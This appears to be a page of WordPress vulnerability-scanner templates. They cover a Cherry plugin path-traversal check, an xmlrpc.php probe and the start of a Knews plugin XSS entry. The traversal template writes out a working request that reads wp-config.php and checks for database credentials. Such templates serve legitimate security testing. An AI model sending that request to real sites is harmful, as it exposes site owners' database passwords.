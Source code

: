 ### URL

- {{BaseURL}}/wp-content/plugins/cherry-plugin/admin/import-export/download-content.php?file=../../../../../wp-config.php

### Matchers

**Type - word**

- part - body
- words
  1. DB_NAME
  2. DB_PASSWORD
- condition - and

**Type - status**

- status
  1. 200

---

# WordPress xmlrpc

- severity - info
- tags - wordpress

## Requests

- Method - GET

### URL

- {{BaseURL}}/xmlrpc.php

### Matchers

**Type - word**

- words
  1. XML-RPC server accepts POST requests only.

---

# WordPress Knews Multilingual Newsletters 1.1.0 - Cross-Site Scripting

## Description

- WordPress Knews Multilingual Newsletters 1.1.0 plugin contains a cross-site scripting vulnerability. An attacker can execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - wordpress,xss,wp-plugin
